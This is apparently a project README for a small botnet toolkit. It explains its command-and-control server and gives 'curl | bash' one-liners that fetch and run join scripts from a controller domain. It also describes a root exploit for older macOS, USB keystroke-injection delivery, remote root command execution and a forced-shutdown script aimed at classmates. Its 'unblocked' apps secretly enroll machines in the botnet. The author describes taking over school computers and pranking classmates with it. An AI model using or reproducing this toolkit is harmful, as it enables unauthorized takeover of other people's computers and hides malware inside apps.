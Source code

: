 # net
Some helpful scripts for building and managing small botnets.

## Why I wrote this
I used this code at the Virginia Residential Governor's School for Math, Science, and Technology to take over 36 Raspberry Pi microcomputers and Kali Linux desktops in the hacking class in which I partook. Such behavior was encouraged, and I did not violate any rules.

I also used this code to prank a few of my classmates in my Hon. Chemistry 10 class.

Please note that I strictly use this code for pranks and for educational purposes. I do not run a DDoSsing botnet or other such illegal operation and do not condone the use of this code to run such an operation.

## Compatible Operating Systems
* macOS/OS X - on 10.11 (El Capitan), exploit will be used to gain a root shell and payload will be automatically delivered. For other versions, root must be obtained manually.
* Debian-based GNU/Linux - Tested on Kali Linux and Raspbian, should work on other distros. Root exploit isn't automatic on any Linux, so you'll need to already have root access.

## How it works
### Command & Control
C&C is managed on ports `2042` & `2043` of a server. A simple Python script opens a socket on port `2043` which listens for incoming data from nodes, such as new nodes' joining signals, updates on connection state, and other data. All requests to the server are printed to the terminal, and important ones are written into `nodes.txt`.

To make control scripts available, run
```sh
python3 -m http.server 2042
```
from the `control` directory. This will use Python's inbuilt simple HTTP server to serve control scripts to nodes upon request.

### Joining
For Macs, two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `join.sh` allows one-run joining: it will download and decrypt an exploit needed to elevate to a root shell and then run `enact.sh` in that root shell automatically. That script will handle joining the botnet.

Some code to use a Rubber Duck USB as a delivery mechanism for Macs can be found [here](https://github.com/ErikBoesen/duck).

For GNU/Linux, there's just one script, `join.sh`, which must be executed as root or as a user with root privileges.

Some code to use a Rubber Duck USB as a delivery mechanism for Linux can be found [here](https://github.com/ErikBoesen/duck-kali).

Here are simple one-liners to join the botnet (I recommend purchasing a simple domain for easy C&C):

Mac:
```sh
curl -L [domain]:2042/mac/join.sh |bash
```
Linux:
```sh
curl -L [domain]:2042/linux/join.sh |bash
```

### Rubber Duck code
In the `duck` directory, you'll find Arduino code for delivering the join scripts automatically to macOS and Linux computers.

This code is intended for use with a Digispark ATTINY85 drive, though it can be easily modified to work with other Rubber Duck USBs.

To upload this code to your drive, follow [this tutorial](https://www.youtube.com/watch?v=fGmGBa-4cYQ).

### Tools
Running `tools/run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command as root. You can also run `up.sh` to view which/how many nodes are online. `die.sh` works strictly on Macs, and will kill open applications, turn off the screen, and initiate shutdown on the computer owned by the student with the provided username. Note: Don't do this.

### Apps
The `apps` directory contains some "unblocked" versions of various applications. These versions will work on secured MacBooks, but they will also join the computer that runs them to the botnet.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).
